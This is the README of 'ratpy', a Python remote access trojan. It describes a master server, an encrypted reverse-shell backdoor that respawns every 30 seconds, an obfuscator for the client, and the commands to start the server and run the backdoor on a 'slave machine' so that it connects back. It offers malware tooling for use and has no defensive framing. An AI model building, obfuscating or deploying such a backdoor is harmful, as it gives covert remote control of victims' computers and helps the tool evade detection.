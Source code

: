 # ratpy
#### another snake friendly rat
<p align="left">
<img src="imgs/ratpy.png" width="240" height="160">
</p>

## Architecture
### Backbone branch - simple backdoor without tools
### ________
### Master
* interface - server menu and server cli scripting
* threadpool - running paralel code to serve menu while waiting and handling connections set to up to 20 by default
* tools - backdoor :: encrypted reverse shell 30s RAT connection with respawn and client-side
* utils - encryption methods and connection methods
> cd master && python3 main.py <server_ip_addr> <rat_port> <shell_port>
### _________________________________________________________________________

### Slave
* interface - client cli scripting
* tools - RAT client backdoor
* utils - encryption methods and connection methods
* obfuscator - obfuscator for client side RAT deployement
> server :: python3 obfuscator.py && <copy ratpy.py to slave machine>
> python3 ratpy.py <server_ip_addr> <rat_port>
### _________________________________________________________________________

## Adding extensions
* to be written in a new future

## Development to v1.0
* [ ] clean up code, refactor and move args.py to interface
* [ ] write client obfuscator
* [ ] open master branch with binary tools for remote deployment
* [ ] document adding extensions

